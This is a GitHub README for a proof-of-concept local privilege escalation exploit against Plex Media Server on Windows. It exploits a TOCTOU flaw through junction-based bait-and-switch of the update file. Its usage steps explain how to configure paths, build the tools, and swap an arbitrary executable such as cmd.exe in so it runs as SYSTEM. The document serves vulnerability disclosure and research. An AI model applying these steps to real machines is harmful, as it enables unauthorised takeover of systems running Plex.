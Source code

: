 # Local Privilege PlEXcalasion 

PlEXcalasion is a local privilige escalasion in Plex media server for windows.
Discoverd by Tomer Peled, Netanel Cohen and Amir Shen a security researchers at BugSec Israel.

The exploit levrage A Time Of Check Time Of Use (TOCTOU) vulnerabilry, allow a low privilige user gain SYSTEM priviliges.

 

This POC use tools developed by James Forshaw with slight modifications, The original can be found here - https://github.com/googleprojectzero/symboliclink-testing-tools

In addition to the above tools , we have created an RPC client that will trigger the update.




## Usage

1. Clone the repository and open PlEXcalasion.sln in Visual Studio.


2. Modify Paths:

PlexClient/PlexClient.cpp replace ROOTDIR with your path.
```cpp
const wchar_t* pszString = L"<ROOTDIR>\\PlEXcalaison\\TOCTOU\\junction\\plex.exe"; // Path to the update file. 
```
PlEXcalaison/BaitAndSwitch/BaitAndSwitch.cpp replace ROOTDIR with your path.
```cpp
static LPCWSTR junction = L"<ROOTDIR>\\PlEXcalaison\\TOCTOU\\junction";  // Path to junction folder , MAKE SURE IT IS EMPTY !
static LPCWSTR target1 = L"<ROOTDIR>\\PlEXcalaison\\TOCTOU\\valid"; // Path to folder contains the valid update file.
static LPCWSTR target2 = L"<ROOTDIR>\\PlEXcalaison\\TOCTOU\\malicious"; // Path to folder contains the malicious file - MUST BE THE SAME NAME AS THE UPDATE FILE.
static LPCWSTR cacert = L"C:\\Program Files (x86)\\Plex\\Plex Media Server\\Resources\\cacert.pem"; // Path to cacert.pem - can be found in plex directory.
```

3. Build the solution.
4. Make sure a PlexClient.exe file was created in the Release dir.
5. Put the desired executeable file u want to execute as system in the malicious folder and name it plex.exe (for the poc i used cmd.exe)

6. Execute BiteAndSwap.exe



